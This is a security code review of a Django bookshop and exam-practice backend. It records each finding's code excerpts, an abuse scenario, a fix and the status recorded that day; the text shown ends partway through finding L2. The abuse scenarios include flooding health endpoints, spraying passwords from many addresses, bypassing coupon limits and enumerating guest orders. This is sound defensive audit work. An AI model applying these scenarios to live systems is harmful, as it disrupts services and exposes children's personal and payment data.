

# ExamLeaf web: security review


The record of the first security review of the Django backend, phases 1 to 4, made on 8 October 2026: every finding
as it was written, with the status its fix was given that day. It is an archive, kept for why the code is as it is;
developers read it before changing what a finding touched, and `SECURITY_REVIEW_PHASE5_6.md` carries on from it.

> [!NOTE]
> **At a glance**
> - 31 findings, none of them Critical: 2 High, 10 Medium, 12 Low and 7 Informational.
> - Both High findings were fixed that day: the public health endpoints (H1) and password-only staff accounts (H2).
> - 26 findings record a fix and L10 a fix in part, as decided; M1, L2, L9 and I2 record none.
> - The payment core held up: signatures, amounts, webhooks, row locks and state machines ("Checked and sound").
> - A read-only review of the code against OWASP ASVS 4.0 level 2; nothing was run against a server.

## Contents

- [Summary](#summary): scope and method, the findings by severity, the top three
- [High](#high): H1 and H2
- [Medium](#medium): M1 to M10
- [Low](#low): L1 to L12
- [Informational](#informational): I1 to I7
- [Checked and sound](#checked-and-sound): what the review found right
- [Suggested order](#suggested-order): the order the fixes were proposed in
- [Related documents](#related-documents)

## Summary

**Date:** 8 October 2026. **Scope:** `examleaf-web/` at commit 9b4c3f2, plus `.github/workflows/ci.yml`.
**Method:** read-only code review against OWASP ASVS 4.0 level 2. Where a finding depends on a library, its behaviour
was checked in the installed source (`.venv`): allauth 65.19.7, dj-rest-auth 7.2.0, simplejwt 5.5.1, sentry-sdk 2.71.0,
django-health-check 4.8.0, django-import-export 4.4.1, django-axes 8.3.1, razorpay 2.0.1. Nothing was run against a
server. Findings that depend on how Razorpay or a provider behaves say so.

| Severity | Count | Findings | Status recorded in this review |
|---|---|---|---|
| Critical | 0 | none | |
| High | 2 | H1, H2 | both fixed |
| Medium | 10 | M1 to M10 | M2 to M10 fixed (M9 behind a switch, `PARENTAL_CONSENT_MODE`); M1 none |
| Low | 12 | L1 to L12 | nine fixed; L10 fixed in part, as decided; L2 and L9 none |
| Informational | 7 | I1 to I7 | six fixed (I5 and I6 each leave a part, as their statuses say); I2 none: it is fine for a public API |



*The review's 31 findings by severity; it found no Critical one.*

> [!NOTE]
> M1, L2 and L9 record no status here. The code has since done what M1 and L2 ask (`shop.services.claim_coupon`; the
> locked re-check in `expire_unpaid_orders`) and most of L9 (payments and the timeline in Download my data).

Top three:

1. **H1:** the public `/health/` endpoints hold a gunicorn worker for at least 3 s per call (Celery ping without
   `limit`) and write to storage. About one request a second takes the whole site down.
2. **H2:** staff accounts log in with a password alone. They can see and export every student's data, edit users
   (including `is_superuser`) and issue refunds. The admin login is outside allauth's per-account limit.
3. **M1:** coupon limits ("one per customer", "max uses") are checked only when an order is created. One customer
   can use a single-use coupon on any number of orders.

The payment core holds up. The checkout return is signature-checked and the payment is then fetched from Razorpay.
Amount (in paise) and currency are re-checked before an order is marked paid. Webhooks are HMAC-checked,
de-duplicated and freshness-checked. Status changes run under row locks and state machines, and every
customer-facing view is scoped to the owner. See "Checked and sound" at the end.

---

## High

### H1. Public health endpoints hold a worker for 3 s each and write to storage: a slow flood stops the site

**Where:** `examleaf/urls.py:33-34, 66-67`; `api/urls.py:47`; `docker-compose.yml:64`; `DEPLOYMENT.md:58`.

```python
# examleaf/urls.py:34
ALL_CHECKS = [*WEB_CHECKS, ("health_check.contrib.celery.Ping", {"timeout": timedelta(seconds=3)})]
# examleaf/urls.py:66 and api/urls.py:47
(path("health/", HealthCheckView.as_view(checks=ALL_CHECKS), name="health"),)
```

- django-health-check's `Ping` has `limit=None`. Its docstring says it then "waits for the full timeout duration", so
  every call lasts at least 3 s.
- `health_check.checks.Storage` saves, reads and deletes a file on every call (an S3 object once `MEDIA_BUCKET` is
  set).
- Both URLs are plain Django views: no authentication, no DRF throttle. Caddy has no rate limit.
- gunicorn runs sync workers (`WEB_CONCURRENCY=3`), so each call blocks one worker.

**Scenario:** an anonymous client sends about one request per second to `/health/` or `/api/v1/health/`. All three
workers stay busy, and log-in, checkout and the Razorpay return page time out. The JSON answer also gives component
names and raw error strings (`str(result.error)`, for example a Redis host and port).

**Fix:**
- Add `"limit": 1` (the number of workers) to the Ping options, so it returns on the first pong.
- Answer `/health/` only to the uptime monitor: a Caddy matcher with an IP allowlist, or a secret header or path.
- Answer `/health/web/` only from inside the network: Caddy returns 404 for `/health/*` from outside; the container
  check already calls `127.0.0.1:8000`.
- Remove `/api/v1/health/`, or make it a database-only check.
- Optionally cache the result for 15–30 s.

**Status (2026-10-08):** fixed — Caddy answers `/health` and `/health/*` with 404 unless the header `X-Health-Token`
equals `HEALTH_CHECK_TOKEN` (nobody gets through while it is unset); the container check calls `127.0.0.1:8000`
directly. `/api/v1/health/` is removed. `examleaf.views.HealthView` keeps each path's results for 20 s per process (in
memory, so that a Redis outage does not switch it off); the Celery ping already had `limit=1`. Open: docker-compose.yml
must pass `HEALTH_CHECK_TOKEN` to the caddy service (snippet in DEPLOYMENT.md section 14); the Caddyfile could not be
validated with a caddy binary here. Tests: `ops/test_security.py` (h1), `api/tests.py`.

### H2. Password-only staff accounts, and an admin log-in with no per-account limit

**Where:** `examleaf/settings.py:41-43` (no `allauth.mfa`), `:150`; `examleaf/urls.py:69`; `accounts/roles.py:40-52`;
`accounts/admin.py:80`.

```python
AXES_LOCKOUT_PARAMETERS = [["username", "ip_address"]]      # settings.py:150
path("admin/", admin.site.urls),                             # urls.py:69, Django's own login form
ADMIN: ALL,                                                  # roles.py:52
("Roles and permissions", {"fields": ["is_active", "is_staff", "is_superuser", "groups", "user_permissions"]}),  # accounts/admin.py:80
```

- There is no second factor anywhere: no `allauth.mfa`, no OTP.
- The admin login form calls `django.contrib.auth.authenticate`. allauth's per-account `login_failed` limit (5 per
  5 minutes per email) lives in `allauth.account.adapter.pre_authenticate` and is never reached.
- axes locks only an (email, IP) pair, so every new address gets 10 more tries per 15 minutes.
- Sessions last Django's default two weeks.

**Scenario:** a phished or reused staff password, or a password guessed from many addresses, gives the attacker:

- every student's date of birth and parent contact, in one CSV (see M5);
- the ability to turn on `is_superuser` (ADMIN role);
- refunds (SALES role);
- the periodic tasks (see I7).

ASVS level 2 expects multi-factor authentication (AAL2). These accounts hold children's data under the DPDP Act.

**Fix:**
- Add `allauth.mfa` (TOTP with recovery codes) and require it for every `is_staff` user: a small middleware sends
  staff without an authenticator to MFA setup.
- Send the admin login through allauth, so its rate limits and MFA apply:
  `admin.site.login = secure_admin_login(admin.site.login)` (`allauth.account.decorators`).
- Give staff shorter sessions, e.g. `request.session.set_expiry(8 * 3600)` on a staff login.
- Optionally allow `/admin/` only from known addresses in Caddy.

**Status (2026-10-08):** fixed — `allauth.mfa` (TOTP and recovery codes; `fido2` pinned, the QR code drawn by segno in
`accounts.adapter.MFAAdapter`; its pages use the site's layout). `examleaf.middleware.StaffMFAMiddleware` sends every
`is_staff` user without an authenticator to the set-up (allauth's `account_*` and `mfa_*` pages and static files stay
open). `admin.site.login = secure_admin_login(admin.site.login)`: allauth's log-in, its per-account limit and the code.
Staff sessions end 8 hours after the log-in (`accounts.models.shorter_staff_sessions`, allauth's `user_logged_in`).
RUNBOOK.md "Staff accounts" has the onboarding. Not done: the optional Caddy allowlist; the API's JWT log-in stays
password-only for staff (it opens no admin page, only the user's own data). Tests: `accounts/test_security.py` (h2),
`accounts/tests.py`.

---

## Medium

### M1. Coupon limits ("one per customer", "max uses") can be bypassed with several pending orders

**Where:** `shop/models.py:205-213, 317-320`; `shop/services.py:85-91, 126-135, 146-178`; `shop/views.py:175-206`;
`api/shop.py:500-524`.

```python
# shop/models.py:205-207
# ponytail: checked when the order is made; two orders paid at the same moment can both take the last use.
used = self.orders.counted()
if self.max_uses is not None and used.count() >= self.max_uses:
# shop/models.py:320, counted(): only placed orders count
return self.filter(placed_at__isnull=False).exclude(status__in=[Order.Status.CANCELLED, Order.Status.REFUNDED])
```

- `create_order` checks the coupon. `record_capture` and `place_cod` never check it again.
- The cart and its coupon survive checkout until the order is paid: `empty_cart` runs only in `pay` (COD) and
  `pay_verify`.
- The code comment describes this as a race, but no race is needed.

**Scenario:**
- A customer applies a coupon limited to one use per customer and checks out (order A, pending), goes back and checks
  out again (order B passes, because A is not counted yet), then pays both. Both orders get the discount.
- The same works against `max_uses` across customers, and with a 100 % coupon and cash on delivery.
- Guests also get round "per customer" by typing a new email address each time: the address is not verified, and
  `email__iexact` treats `a+1@…` as a different person.

**Fix:**
- Count pending orders from the last `UNPAID_ORDERS_EXPIRE` as uses.
- When the order is placed, check again under a lock: in `record_capture` and `place_cod`, call
  `Coupon.objects.select_for_update().get(pk=order.coupon_id)` and recount, leaving this order out.
  - If the limit is passed on an online order, refund it.
  - If it is passed on a cash-on-delivery order, refuse it.
- For "one per customer", add a `CouponRedemption(coupon, normalised_email, order)` row with a unique constraint,
  written when the order is placed.
- Require log-in for limited coupons, or normalise guest addresses (lower case, `+tag` removed) when counting.

### M2. Guest order lookup: a sequential order number plus an email address shows any order's address and phone, and allows cancelling it

**Where:** `shop/models.py:365-369`; `shop/views.py:71-81, 282-289, 322-333`; `api/shop.py:583-599`;
`templates/shop/email/_order.txt:9-10`.

```python
self.number = f"EL-{timezone.localdate(self.created).year}-{self.pk:06d}"  # models.py:368: the database id
if order := Order.objects.filter(number=number, email__iexact=email).first():  # views.py:329: any order
    grant(request, order)  # the session may now view and cancel it
```

- The lookup matches every order, including orders of registered accounts.
- The granted browser session shows the full delivery address and mobile number, and can cancel the order
  (`views.py:282-289`).
- A student's email address is seldom secret (classmates, school lists).
- Limits are per client address only: 10 per 10 minutes on the web, 30 per hour on the API. They switch off while
  Redis is down (`shop/views.py:62`).

**Scenario:** someone who knows a student's email tries the few thousand recent numbers from rotating addresses.
They get the child's home address and mobile number, and can cancel the order, which starts a refund.

**Fix:**
- Give each order an unguessable token (`secrets.token_urlsafe(16)`) and put a link that carries it in the
  confirmation email.
- Make `/orders/lookup/` email that link to the order's address instead of opening the order in the browser that
  asked ("if an order matches, we have emailed you a link").
- Leave out orders that belong to an account (`user__isnull=True`): their owners log in.
- Count failed lookups per email address and per order number as well as per client address.
- Optionally, a random order number (or random suffix) also stops the number from showing how many orders the shop
  has.

**Status (2026-10-08):** fixed — each order has an unguessable `token` (`secrets.token_urlsafe(16)`, unique, left out
of the history; migration 0007 fills the existing orders). Every order email links to `/orders/t/<token>/`: the order
read-only (no payment), its invoice and credit notes, and cancelling while it is pending or paid. `/orders/lookup/`
(website and API) no longer opens anything: for a guest order (`user__isnull=True`) matching the number and email it
emails that link to the order's address, and it always answers "If an order matches, we have emailed you a link."
Limits: 10 an hour per client address, per email address and per order number (hashed cache keys), and 429 while the
count cannot be read. Random order numbers: open (not decided). Tests: `shop/test_security.py` (m2),
`shop/test_orders.py`, `shop/test_api.py`.

### M3. Razorpay test mode and live mode are not separated

**Where:** `shop/payments.py:36-37`; `shop/models.py:457-476, 552-565`; `shop/tasks.py:84-91`;
`templates/shop/pay.html:21`; `.env.example:106`.

```python
test = settings.RAZORPAY_KEY_ID.startswith("rzp_test_")      # models.py:557, decided when the number is made
# is refused (400). Test and live mode have separate webhooks: give both the same secret, or change it when going live.   (.env.example:106)
<p class="notice-line">Test mode: no real money is taken. Use Razorpay's test card or UPI ID.</p>   (pay.html:21)
```

Neither payments nor orders record which mode they were made in, and the webhook handler accepts any event signed
with the secret.

**Scenarios:**
1. **Free "paid" orders before launch.** Razorpay's activation review needs the shop to be public while it still runs
   on test keys. Anyone can "pay" with the published test card, and the order looks paid in the admin, ready for
   Mark packed and Mark shipped.
2. **Test orders in the real invoice series.** After going live, those test orders stay "paid". If one is invoiced
   after the switch (a cash-on-delivery test order shipped later, or a clean-up re-queue), it gets a real `EL/` invoice
   number: the series is chosen from the current key, not from the payment. The gap-free GST series then contains a
   non-sale.
3. **Test webhooks accepted live.** With the same webhook secret for both modes, the live site accepts test-mode
   webhooks. A test payment on an order that was pending at launch completes it.

**Fix:**
- Store `livemode` on `Payment` (from the key used to create the Razorpay order) and copy it to `Order`.
- Refuse captures and webhooks whose mode differs from the current key's (`record_capture`, `_dispatch`).
- In live mode, show a TEST badge on test-mode orders in the admin and block pack and ship for them.
- Choose the invoice series from the payment's mode, not the current key.
- Use a different webhook secret per mode, and correct the `.env.example` advice.
- Keep checkout staff-only (e.g. a `SHOP_OPEN` flag) while the shop runs on test keys.

**Status (2026-10-08):** fixed — `livemode` on `Payment` and `Order` (migration 0006; set from the keys that create the
Razorpay order; rows made before count as test). `record_capture`, the webhook dispatcher (payment and refund events)
and `reconcile` ignore payments of the other mode (warning logged, webhook answered 200, nothing paid). Invoice and
credit-note series follow the order's mode (`next_number(live=…)`, `check_seller(live)`), never the current key. With
live keys, test-mode orders show TEST in the admin and cannot be packed or shipped (transition conditions). Webhooks are
checked against `RAZORPAY_WEBHOOK_SECRET_TEST` or `RAZORPAY_WEBHOOK_SECRET`, by the keys' mode (`.env.example`
corrected). `SHOP_OPEN=0` leaves the cart, checkout and payment (website, and the API's writes) to staff, with "Shop
opens soon" on the catalogue. Tests: `shop/test_security.py` (m3).

### M4. Password-reset links and verification codes reach Sentry through stack-frame variables

**Where:** `ops/tasks.py:11-19, 33-37`; `examleaf/sentry.py:9-15`; `examleaf/settings.py:285-293`.

```python
def send_email(message):                       # ops/tasks.py:12: message["body"] is the whole email text
    send_email.run(message)                    # ops/tasks.py:37: fallback inside the web request
KEYS = {..., "code", "verification_token", "refresh", "access", "token", "key", ...}   # sentry.py: no "body"/"alternatives"
sentry_sdk.init(dsn=SENTRY_DSN, ..., send_default_pii=False, before_send=before_send, ...)   # include_local_variables defaults to True
```

- `send_default_pii=False` keeps Celery's task arguments out of Sentry. Stack-frame local variables are still sent:
  `include_local_variables` defaults to True in sentry-sdk 2.71.
- An email can fail to send (provider outage, quota, refused recipient). Then the worker's final failure, and the
  synchronous fallback inside a web request, raise inside `send_email` / `queue_email`. Those frames hold `message`
  with `body` and the HTML `alternatives`.
- `scrub()` masks only listed keys and phone, card and email patterns. It lets through
  `https://…/account/password/reset/key/<uid>-<key>/` and the verification codes.

**Scenario:** a reset email that failed to send was never used, so its link stays valid for 3 days (Django's default
`PASSWORD_RESET_TIMEOUT`). Anyone who can read Sentry (staff, a contractor, a compromised Sentry login) can open the
link and take over that student's account.

**Fix:**
- Set `include_local_variables=False` in `sentry_sdk.init`. Request bodies are already scrubbed separately.
- Add `"body"`, `"alternatives"` and `"message"` to `KEYS` as a second safeguard.
- Optionally, queue only an identifier and render the email in the worker.

**Status (2026-10-08):** fixed — `include_local_variables=False` in `sentry_sdk.init`; `body`, `alternatives` and
`message` added to the scrubbed keys (a log message's own text now reaches Sentry as "[Filtered]"; the exception and
its stack trace stay). Not done: the optional identifier-only queueing. Test: `ops/test_security.py` (m4).

### M5. Every staff role can bulk-export personal data, including minors' dates of birth and parent contacts

**Where:** `accounts/admin.py:13-30, 66-68`; `shop/admin.py:139-168`; `practice/admin.py:8-26`;
`accounts/roles.py:40-51`. `IMPORT_EXPORT_EXPORT_PERMISSION_CODE` is not set anywhere.

```python
class UserAdmin(ExportMixin, auth_admin.UserAdmin):  # accounts/admin.py:67; UserResource exports
    resource_classes = [UserResource]  # email, phone, date_of_birth, parent_name, parent_contact, …


(*crud("accounts", ["user", "consentrecord", "deletionrequest"], ["view"]),)  # roles.py:41 (SUPPORT)
```

In django-import-export 4.4.1, `has_export_permission` returns True when `IMPORT_EXPORT_EXPORT_PERMISSION_CODE` is
unset (`import_export/admin.py:637-645`). Anyone who can open a changelist can therefore export it.

**Scenario:** the SUPPORT role is meant to look up single records. A SUPPORT agent can instead download, in one CSV,
every student's:

- date of birth;
- parent's name and phone number;
- class and district.

SALES and SUPPORT can likewise export every order's name, phone and address as XLSX. One compromised staff account
means the whole dataset leaks. This also contradicts the privacy notice ("staff see only what their role needs").

**Fix:**
- Set `IMPORT_EXPORT_EXPORT_PERMISSION_CODE = "export"`.
- Add `export_user` and `export_order` permissions (`Meta.permissions`) and give them to ADMIN only.
- Drop `date_of_birth` and `parent_contact` from `UserResource` unless an export really needs them.
- Record each export in the admin log.
- See L7 for escaping formulas in exports.

**Status (2026-10-08):** fixed for users, consent records and attempts — `IMPORT_EXPORT_EXPORT_PERMISSION_CODE =
"export"`; `accounts.export_user`, `accounts.export_consentrecord` and `practice.export_attempt` (Meta.permissions,
migrations) are held by ADMIN only (SALES and SUPPORT have none); `UserResource` no longer has `date_of_birth` or
`parent_contact`; every export writes an admin LogEntry ("Export of N users", `ops.admin.LoggedExportMixin`). Test:
`accounts/test_security.py`.

**For the shop (orders), to do in shop files:** with the setting above, `OrderAdmin`'s export already checks
`shop.export_order`, which does not exist yet, so only superusers can export orders until it does.
1. `shop/models.py`: `permissions = [("export_order", "Can export orders")]` in `Order.Meta`, then
   `manage.py makemigrations shop`. ADMIN gets it from `bootstrap_roles` by itself; SALES does not (the monthly
   settlement export in RUNBOOK.md becomes ADMIN's).
2. `shop/admin.py`: `class OrderAdmin(LoggedExportMixin, SimpleHistoryAdmin)` with
   `from ops.admin import LoggedExportMixin` instead of `ExportMixin`, so that order exports are logged too. Keep
   import-export's own `has_export_permission` (do not override it).

**Status (2026-10-08), shop part:** done as asked — `Order.Meta.permissions` has `export_order` (migration 0008) and
`OrderAdmin` uses `LoggedExportMixin`; SALES now gets 403 on the orders export, ADMIN exports
(`shop/test_admin.py`). RUNBOOK.md's monthly settlement export is ADMIN's.

### M6. Full Razorpay webhook payloads (UPI ID, phone, email, card details) kept for good and shown to staff

**Where:** `shop/models.py:475-476`; `shop/services.py:138-143`; `shop/payments.py:146-148`;
`shop/admin.py:318-323`; `pages/drafts/privacy.md:16`.

```python
raw_payload = models.JSONField("last webhook", null=True, blank=True)  # models.py:475
payment.raw_payload = payload  # services.py:141: the whole signed event
# privacy.md:16: "Payments are made through Razorpay; we never see or keep your card, UPI or bank details."
```

- Razorpay's payment entity carries the payer's email, contact number, `vpa` (the UPI ID) and bank or wallet. For
  card payments it adds card network, issuer and last digits, plus acquirer references. This describes Razorpay's
  payload format, not something in this code.
- `PaymentAdmin` is a `ReadOnlyAdmin` with no `fields` list, so it shows every field, and SALES and SUPPORT can view
  payments.
- The payload is never cleared: neither `DeletionRequest.complete()` nor `forget_shop_details` touches it.
- It is not part of "Download my data".

**Scenario:** this breaks DPDP data minimisation, and the privacy notice says the opposite. A staff-account or
database breach exposes the UPI IDs and phone numbers of children.

**Fix:**
- Keep an allowlist (`id`, `order_id`, `status`, `method`, `amount`, `currency`, `error_code`,
  `error_description`, `created_at`), or keep nothing.
- Exclude `raw_payload` from the admin.
- Clear existing payloads in a data migration.
- If payloads must be kept for disputes, purge them after a set period (e.g. 180 days) in `clean_up`.

**Status (2026-10-08):** fixed — a webhook keeps only `Payment.PAYLOAD_FIELDS` (the list above) of its payment entity;
`PaymentAdmin` excludes `raw_payload`; migration 0005 strips the stored payloads to those fields; `clean_up` clears them
180 days after the payment. Test: `shop/test_security.py` (m6).

### M7. Passwords can be guessed per account from many addresses through the API log-in

**Where:** `examleaf/settings.py:150`; `api/auth.py:226-239`; `examleaf/api_settings.py:50`.

```python
AXES_LOCKOUT_PARAMETERS = [["username", "ip_address"]]        # settings.py:150
"dj_rest_auth": _env("API_THROTTLE_AUTH", default="30/minute"),  # api_settings.py:50, per client address
```

dj-rest-auth's `LoginSerializer.authenticate` calls `django.contrib.auth.authenticate(...)`
(`dj_rest_auth/serializers.py:26-27`). allauth's per-email `login_failed` limit (`10/m/ip,5/300s/key`) sits in
`adapter.authenticate`, so it is never applied. The website login has it; the API does not. The Django admin login
has the same gap (H2).

**Scenario:** credential stuffing or password spraying against student accounts through `/api/v1/auth/login/`. The
minimum password length is 8. Each address gets 10 tries per account every 15 minutes, and a botnet scales that
linearly.

**Fix:**
- In `LoginSerializer`, authenticate through allauth so its per-email limit is consumed and rolled back on success:
  `get_adapter().authenticate(request, email=email, password=password)`.
- Or add a DRF throttle keyed on the normalised email, e.g. 5 per 5 minutes.
- Keep axes as it is; locking by username alone would make it easy to lock other people out.

**Status (2026-10-08):** fixed — `LoginSerializer.authenticate` goes through allauth's adapter: 5 failed log-ins per
account in 5 minutes from any address, rolled back on success, shared with the website. Also
`ALLAUTH_TRUSTED_PROXY_COUNT = PROXY_COUNT`: behind Caddy allauth saw one address for everybody, so its per-address
limits (10 failed log-ins a minute, 30 log-ins a minute) were limits for the whole site. Test:
`api/test_security.py` (m7).

### M8. Cash on delivery (once enabled): anonymous orders hold stock and send emails with attacker-written text to any address

**Where:** `shop/forms.py:67`; `shop/services.py:126-135, 304-311`; `shop/views.py:216-227`;
`templates/shop/email/_order.txt:6-8`.

```python
methods = [Order.Method.RAZORPAY, *([Order.Method.COD] if settings.SHOP_COD_ENABLED else [])]  # forms.py:67, guests too
reserve_stock(order)  # services.py:131
payment_method = (Order.Method.RAZORPAY,)  # services.py:309: only online orders expire
```

- There is no cap on cash-on-delivery order value or count per email, phone, address or client address.
- The email and phone are not verified.
- Neither checkout nor the "place order" POST is throttled.
- Cash-on-delivery orders that were never placed never expire.

**Scenario:**
- A script places cash-on-delivery orders for the whole stock with fake addresses. Every book shows sold out until
  staff cancel the orders one by one, and refused parcels cost return shipping.
- Each order sends its confirmation email to any address the attacker types. The email carries the attacker's name
  and address lines (120–200 characters each) under ExamLeaf's domain: phishing, and damage to sender reputation.

**Fix:** before setting `SHOP_COD_ENABLED=1`:
- Offer cash on delivery only to signed-in accounts with a confirmed email (ideally a phone confirmed by OTP too).
- Cap the order value (e.g. ₹1,500) and the number of open cash-on-delivery orders per account, phone and PIN code.
- Rate-limit checkout and the place-order POST per client address and per account.
- Expire cash-on-delivery orders that were created but never placed.

**Status (2026-10-08):** fixed — cash on delivery only for signed-in accounts with a confirmed email address (checkout
form and `create_order`), orders worth at most `SHOP_COD_MAX_VALUE` (₹1,500, shipping included), and at most two placed
and not yet delivered per account (checked again, under a lock on the account, when placed). Checkout and place-order
POSTs: 10 per 10 minutes per client address (the API's checkout shares the count), refused while the count cannot be
read. Never-placed cash orders already expire after two days (QA pass). Open (not decided): a phone confirmed by OTP,
limits per phone and PIN code. Test: `shop/test_security.py` (m8).

### M9. Children's data rests on self-declared age and parental consent

**Where:** `accounts/forms.py:43-47, 95-101`; `RUNBOOK.md:70-71`.

```python
label="... If I am under 18, my parent or guardian reads the notice and ticks this box.",   # forms.py:45-46
if not data.get("consent"):                                                                   # forms.py:95, a box in the student's own form
```

- `parent_contact` is checked for format only, and nothing is ever sent to the parent.
- A minor can register, and buy books by giving a home address, alone.
- A child can type an adult date of birth to skip the parent fields.
- `RUNBOOK.md:70-71` already notes that the parental consent is self-declared.

**Scenario:** the DPDP Act (s. 9) and the DPDP Rules, 2025 require verifiable consent from a parent before a child's
data is processed. The current flow records a declaration, not a verification.

**Fix:** before the parental-consent rule applies:
- Send a code or link to `parent_contact`, and keep the account in a "consent pending" state with minimal data until
  the parent confirms.
- Record how and when consent was verified in `ConsentRecord`.
- Block checkout for minors without verified parental consent.

**Status (2026-10-08):** fixed behind a switch — `PARENTAL_CONSENT_MODE`: `declared` (the default, as before) or
`verified`. Verified: an under-18 sign-up needs a parent's email (not the student's own); the parent gets a signed link
(`django.core.signing`, 7 days; it names the address, so a corrected address voids older links); until the parent
presses "I agree" `User.consent_pending` is true: the account logs in and reads, attempts are refused (form and API).
`ConsentRecord.method` and `verified_at` record how and when (migration 0006, in the data export and the admin). The
student can send the link again, also to a corrected address, from My account (one every 10 minutes). DEPLOYMENT.md
section 14 and RUNBOOK.md "Parental consent" give the switch and the May 2027 deadline. Test:
`accounts/test_security.py` (m9).

**For the shop (checkout), to do in shop files:** refuse checkout while `request.user.consent_pending`: in
`shop/views.py` `checkout()`, after the empty-cart check, `if request.user.is_authenticated and
request.user.consent_pending: messages.error(request, "Your parent or guardian has not confirmed your account yet: see
My account."); return redirect("account")`; in `api/shop.py` `OrderViewSet.create`, first
`if request.user.consent_pending: raise exceptions.PermissionDenied("A parent or guardian has not confirmed this
account yet.")`. Until then a pending account can still order (only in verified mode).

### M10. Unpaid orders, sessions, off-site backups and logs are kept longer than the privacy notice says

**Where:** `shop/services.py:304-314`; `accounts/models.py:182-213`; `examleaf/settings.py:215-222`;
`scripts/backup.sh:15-16`; `docker-compose.yml:22-24`; `pages/drafts/privacy.md:58-59`.

```python
cancel_order(order, "Not paid within two days.", email=False)     # services.py:313: cancelled, never removed
find "$DIR" -name 'examleaf-*.dump' -mtime +"${KEEP:-30}" -delete  # backup.sh:15: local dumps only
# privacy.md:59: "Server logs: [30] days. Backups: [30] days."
```

- **Unpaid orders.** Orders that were never paid or placed are not sales, so tax law does not require them. They
  still keep name, phone, address and email for good, including after account deletion: `complete()` keeps all
  orders.
- **Sessions.** `clearsessions` is not scheduled (`CELERY_BEAT_SCHEDULE`, `settings.py:215-222`). Expired sessions
  stay in the database: allauth's verification state with the email address, guests' order numbers, and the API's
  verification sessions.
- **Backups.** Uploaded dumps are never deleted and are not encrypted. Erased accounts live on in them past the
  stated 30 days.
- **Logs.** Docker logs rotate by size (10 MB × 5), not after 30 days.

**Fix:**
- In `clean_up`, delete orders with `placed_at IS NULL` (or strip their personal data) about 30 days after they are
  cancelled.
- Schedule `clearsessions` daily.
- Add a bucket lifecycle rule (expire `database/` after 30 days) and encrypt dumps before upload (`age` or `gpg`).
- Rotate logs by time, or correct the notice.
- Plan the 8-year purge of invoiced orders.

**Status (2026-10-08), shop part:** fixed — `clean_up` strips the name, phone, address lines and email address
("deleted", history rows too; `services.forget_orders`) from orders never paid or placed, 30 days after they were
cancelled; the town, district, state and PIN code stay. RUNBOOK.md "Purging old orders" gives the yearly manual step,
with its query, for invoiced orders past eight years. Sessions, backups and logs were not part of the shop work. Test:
`shop/test_security.py` (m10).

**Status (2026-10-08), sessions, backups, logs:** fixed — `clearsessions` daily (`ops.tasks.clear_sessions`, beat
03:45); `scripts/backup.sh` encrypts the uploaded copy with age when `BACKUP_AGE_RECIPIENT` is set (the local dumps stay
plain for a quick restore); DEPLOYMENT.md section 9 gives the 30-day lifecycle rule for `database/` and the key
handling, RUNBOOK.md the decryption. Logs: Docker can only rotate by size, so the Privacy Policy draft now says what is
true (a fixed amount, overwritten; the days to be filled in) and DEPLOYMENT.md section 10 gives the journald driver for a
hard limit. Open: the lifecycle rule and the age key are set up by hand; a database made before this keeps the old
privacy text until it is edited in the admin (the draft only seeds new databases). Tests: `ops/test_security.py` (m10).

---

## Low

### L1. A retried refund after a lost response can pay out twice

**Where:** `shop/tasks.py:15-46, 81-83`.

```python
@shared_task(autoretry_for=(requests.RequestException, GatewayError, ServerError), ...)   # tasks.py:15-16
result = payments.client().payment.refund(refund.payment.razorpay_payment_id, {...})       # tasks.py:30
refund.razorpay_refund_id = result["id"]                                                    # tasks.py:43, only after a reply
```

**Scenario:** Razorpay processes the refund but the reply times out. The automatic retry, or `clean_up`'s re-queue
after an hour, sends the refund again.

- For a full refund, Razorpay refuses the second request. The row is then marked failed although money moved, until
  the webhook corrects it.
- For a partial refund (staff, shipped orders), the second request succeeds, so the customer is paid twice. The first
  refund's webhook is then ignored, because the row already holds the second refund's id.

**Fix:** before calling, list the payment's refunds (`client().payment.fetch_multiple_refund(payment_id)`) and adopt
the one whose `notes.refund_id` matches. Do not retry after a read timeout without that check.

**Status (2026-10-08):** fixed — each try of `refund_payment` (Celery's retries and the clean-up's re-queue alike) first
lists the payment's refunds (`fetch_multiple_refund`) and adopts the one whose `notes.refund_id` is this refund's id;
only when there is none does it send a refund (with that note). Test: `shop/test_security.py` (l1).

### L2. The unpaid-order clean-up can cancel an order that was just paid, without telling the customer

**Where:** `shop/services.py:304-314, 237-243`.

```python
stale = Order.objects.filter(status=Order.Status.PENDING, ...)        # services.py:307-311
cancel_order(order, "Not paid within two days.", email=False)          # services.py:313; cancel() is allowed from PAID too
```

**Scenario:** a payment is captured between the query and the row lock, for example a customer paying an old
checkout page at 04:30. The paid order is cancelled and refunded with no cancellation email.

